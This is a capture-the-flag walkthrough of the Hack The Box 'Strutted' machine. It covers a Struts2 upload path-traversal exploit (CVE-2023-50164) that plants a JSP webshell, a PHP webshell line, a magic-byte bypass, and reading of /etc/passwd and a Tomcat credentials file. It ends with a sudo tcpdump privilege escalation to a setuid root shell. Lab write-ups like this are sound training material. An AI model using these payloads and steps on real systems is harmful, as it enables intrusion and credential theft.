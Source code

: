 # Strutted HTB (Linux)

## Initial Setup

* Added the target IP and domain to `/etc/hosts` for local DNS resolution.

## Web Application Reconnaissance

* Navigated to the web page. Noted an **Upload File** functionality immediately.
* Checked DevTools (Inspect Element) — no obvious client-side filters or JavaScript validation interfering with uploads.
* The only other notable functionality was a **Download** button. Downloading the file provided a zip archive containing the Strutted application source code.
* Within the source:

  * Noticed a `tomcat-users.xml` file containing an admin username and password. Logged for potential use later.

## File Upload Testing

* Attempted to upload a basic PHP webshell:

  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```

  * Upload rejected: *"not a jpg, jpeg, gif"*

* Renamed file to `shell.php.jpg`

  * Upload rejected: *"not an actual image"*
  * This suggested magic byte validation.

### Bypassing Magic Byte Checks

* Created a dummy image:

  ```bash
  convert -size 100x100 xc:white image.jpg
  cat image.jpg shell.php.jpg > sh.php.jpg
  ```

  * Upload succeeded, received a shareable link.
  * Share link was dead, but inspecting the page source revealed the image upload path:

  ```
  http://strutted.htb/uploads/20250708_012649/sh.php.jpg
  ```

* Appending `?cmd=id` to this URL did not trigger command execution, confirming the server doesn’t interpret `.php.jpg` as executable.

## Understanding the Application Stack

* Re-examined the downloaded source and `pom.xml`

* Noted:

  ```xml
  <struts2.version>6.3.0.1</struts2.version>
  ```

* Realized this is a **JSP-based Java Struts2 application** — which explained why PHP payloads failed.

## Vulnerability Research

* Identified **CVE-2023-50164**:

  * Vulnerability in Struts2 FileUploadInterceptor allowing **path traversal via manipulated multipart parameters**, potentially leading to RCE if a file can be written to a web-accessible directory.
  * Relevant resource:

    * [https://nvd.nist.gov/vuln/detail/CVE-2023-50164](https://nvd.nist.gov/vuln/detail/CVE-2023-50164)

## Exploitation via CVE-2023-50164

* Prepared a JSP webshell using:

  [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp)

* Within BurpSuite Repeater:

  * Uploaded an image to satisfy magic byte checks.
  * Immediately after image bytes, appended the JSP webshell.
  * Crafted multipart parameter `top.uploadFileName` to perform directory traversal:

  ```
  Content-Disposition: form-data; name="top.uploadFileName"

  ../../cmd.jsp
  ```

* Closed multipart form data.

https://ibb.co/gZxXbskG

https://ibb.co/TqvDYXzk

* Server response showed upload succeeded, displaying path:

  ```
  uploads/20250708_023045/../../cmd.jsp
  ```

https://ibb.co/S4vcjF6N


* Confirmed the webshell was accessible and operational:

  ```
  http://strutted.htb/uploads/20250708_023045/../../cmd.jsp
  ```

## Enumeration through Webshell

* Ran:

  ```
  cat /etc/passwd
  ```

* Discovered a user:

  ```
  james:x:1000:1000:Network Administrator:/home/james:/bin/bash
  ```

* Attempted to locate any sensitive configuration files:

  * Noted earlier from the downloaded source the existence of `/etc/tomcat9/tomcat-users.xml`
  * Unable to `cat` directly via shell (possible restrictions), so used `curl` through the webshell:

  ```
  curl http://strutted.htb/cmd.jsp?cmd=cat+%2Fetc%2Ftomcat9%2Ftomcat-users.xml --output tomcat-users.xml
  ```

* Retrieved the file, revealed admin credentials.

## SSH Access

* Using the discovered password for **user james**, successfully connected via SSH:

  ```
  ssh james@10.10.11.59
  ```

## Privilege Escalation

* Checked sudo privileges:

  ```
  sudo -l
  ```

* Output:

  ```
  User james may run the following commands on localhost:
      (ALL) NOPASSWD: /usr/sbin/tcpdump
  ```

### Exploiting `tcpdump` via GTFOBins

* Referenced GTFOBins technique:
  [https://gtfobins.github.io/gtfobins/tcpdump/#sudo](https://gtfobins.github.io/gtfobins/tcpdump/#sudo)

* Executed:

  ```bash
  COMMAND='cp /bin/bash /tmp/bash && chmod +s /tmp/bash'
  TF=$(mktemp)
  echo "$COMMAND" > $TF
  chmod +x $TF
  sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
  /tmp/bash -p
  ```

* Spawned a root shell via setuid `bash`.

## Root Flag

* Retrieved the root flag:

  ```
  cat /root/root.txt
  ```

## Summary

| Step                        | Action                                                  |
| :-------------------------- | :------------------------------------------------------ |
| Initial recon               | Found upload functionality and downloaded application   |
| Application stack discovery | Identified Struts2 + JSP usage and vulnerable version   |
| Exploitation                | CVE-2023-50164 — file upload path traversal to webshell |
| Lateral movement            | Retrieved tomcat-users.xml via webshell curl            |
| Privilege escalation        | SSH access as **james** → sudo `tcpdump` → root shell   |
| Root flag retrieval         | Read `/root/root.txt`                                   |

